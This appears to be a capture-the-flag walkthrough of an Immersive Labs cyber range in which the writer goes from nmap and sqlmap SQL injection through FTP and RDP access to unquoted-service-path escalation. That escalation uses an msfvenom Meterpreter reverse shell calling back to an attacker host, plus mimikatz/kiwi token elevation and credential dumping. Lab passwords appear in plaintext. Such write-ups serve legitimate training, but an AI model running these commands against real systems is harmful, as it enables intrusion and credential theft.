 ```yaml
---
date: 2025-05-02
categories: [CTF, ImmersiveLabs]
title: "IML - Offensive Cyber Range: Artica Shipping Company"
tags: ['ftp', 'nmap', 'privilege escalation', 'python', 'rce', 'sqli', 'windows']

description: "Offensive Cyber Range Artica Shipping Company - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Offensive Cyber Range: Artica Shipping Company


![image1](../resources/1e3b840d470c411aaf26f2852d9d848d.png)

1.) Enum Host 1

![image2](../resources/6099619d24ba47bfa5eb358c5ffdf784.png)

2.) What type of server does Unknown Host 1 appear to be?
FTP server

3\. ) What version of Apache is Artica's intranet using?
nmap \<Host 4\> -p 80 -A

Version: 2.4.41

4.) Identify vulnerabilities in services or servers:
Go to \<host 4\> port 80

The to= parameter is injectable (test with a simple quote ' )

5.) What type of attack is the Artica intranet vulnerable to?
SQLi

6.) What is the username of the FTP account that can be found in the intranet database?

1.  Open burp and catch the request

![image3](../resources/eeff52988b1f4ac790dc6933ed1832d6.png)

2.  Save the request text to a file, call it 'burpfile':

3.  Run:
```bash
sqlmap -r burpfile --batch --dump-all --exclude-sysdb
```
- We get creds:

![image4](../resources/e150f496b8e64f52b717958b66bb2e3b.png)

\| 1 \| WoWmAgE60 \| b.mocarthy \|

\| 2 \| 0912jgf93FSnjf \| artica-ftp-acc

FTP account: **artica-ftp-acc**

7.) Which of the following directories exists on the FTP server?
Tools


![image5](../resources/26a3e175e9484e5381b1ead7831d3b4c.png)

8.) Which port is NOT open on Unknown Host 2?
21

9.) What is the name of the domain Unknown Host 2 is connected to?
NMAP

artica.office

10.) What is the NetBIOS computer name of Unknown Host 1?
From the NMAP

ARTICA-WIN-FTP

11.) What type of attack is the fax server vulnerable to?

Log into ftp server with creds from sql dump

```bash
ftp 10.102.18.198
cd System Administration
binary #Change to binary mode
get fax-server-info.pdf

```
Read it and we get creds:

**DNS: artica-fax-server**
**User: artica\fax_acc**
**Pw: 03mglosmf!!**

Unknown Host 2 is the fax server

- Connect with xfreerdp:
  
```bash
xfreerdp /v:10.102.17.110 /u:artica\fax_acc /p:'03mglosmf!!' /cert:ignore /dynamic-resolution

```
wmic service get name,displayname,startmode,pathname \| findstr /i /v "C:\Windows\\" \|findstr /i /v """


![image6](../resources/5206b6f5fe5b455d8644e631bce83938.png)

C:\Program Files\Artica Applications\Logging Service\log-srv.exe

```bash
icacls "C:\Program Files\Artica Applications"

```

![image7](../resources/00c478fb05904a58b3780b43a369e1f0.png)

**Unquoted service path**

12.) Exploit the vulnerabilities to obtain the tokens.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.52.111 LPORT=9000 -f exe -o Logging.exe

python -m http.server 8080

```
Download rev shell
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.52.111; set lport 9000; exploit"
```

Put in C:\Program Files\Artica Applications

```bash
sc qc "Artica Logging Service"

```

![image8](../resources/2a8b376edfa245f8b714507e30f2aeec.png)


![image9](../resources/d4950d26564f42e78ede32462244301c.png)

```bash
sc start "Artica Logging Service"

```

![image10](../resources/4f693e9e88604e3082a64c5d48d952bc.png)


![image11](../resources/3f5fe6eae22a4e3c94ef6bd423313026.png)

ps

migrate to winlogon.exe

```bash
load kiwi

kiwi_cmd "token::elevate /domainadmin"

```

![image12](../resources/e823fa026d6c4d6e935a82584e83e2ae.png)

```bash
creds_all
```

![image13](../resources/926d2092181247c791d7ff27d6e37d63.png)

**emma.thompson : iLOVEbears1204**

13.) What is the token found within the file located on the Administrator's desktop on the domain controller?

On the existing RDP session - Open Remote Desktop and use the creds for Emma


![image14](../resources/0901a51145da4a09bc83fe15414b4748.png)
